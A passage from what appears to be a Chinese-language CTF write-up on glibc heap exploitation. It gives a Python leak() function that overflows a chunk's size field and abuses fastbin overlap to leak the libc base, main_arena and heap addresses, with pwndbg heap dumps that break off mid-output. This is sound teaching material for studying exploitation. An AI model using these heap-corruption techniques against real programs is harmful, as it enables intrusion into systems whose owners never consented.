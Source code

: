 ```python
```

## 泄露heap地址

```python
def leak():
    alloc(0x48) #0
    alloc(0x48) #1
    alloc(0x48) #2
    alloc(0x48) #3
 
    update(0, 0x49, "A"*0x48 + "\xa1")
    delete(1)   #1
    alloc(0x48) #1
    view(2)    
    p.recvuntil("Chunk[2]: ")
    # now the 2nd block will contain the main_arena_addr
    # bins will will contain the 2nd block
 
    leak = u64(p.recv(8))
    libc_base = leak - libc_offset
    main_arena = leak - 0x58
    log.info("libc_base: %s" % hex(libc_base))
    log.info("main_arena: %s" % hex(main_arena))
 
    alloc(0x48) #4 = 2
    delete(1)  
    delete(2)
    view(4)
    
    p.recvuntil("Chunk[4]: ")
    heap = u64(p.recv(8)) - 0x50
    log.info("heap: %s" % hex(heap))
    return main_arena, libc_base
```

再次申请第5个0x48字节空间的块，该块和第3个块所指向的空间相同，这时候，删除第2个块和第3个块，由于fastbin 是由单链表链接，这时候，第2个块的地址将被写入第3个块，而第3个块和第5个块的内容一模一样，可以通过查看第5个块查看地址。

调试信息:

```shell
pwndbg> heap
0x555555757000 FASTBIN {
  prev_size = 0, 
  size = 81, 
  fd = 0x4141414141414141, 
  bk = 0x4141414141414141, 
  fd_nextsize = 0x4141414141414141, 
  bk_nextsize = 0x4141414141414141
}
0x555555757050 FASTBIN {
  prev_size = 4702111234474983745, 
  size = 81, 
  fd = 0x0, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
  bk_nextsize = 0x0
}
0x5555557570a0 FASTBIN {
  prev_size = 0, 
  size = 81, 
  fd = 0x555555757050, 
  bk = 0x0, 
  fd_nextsize = 0x0, 
```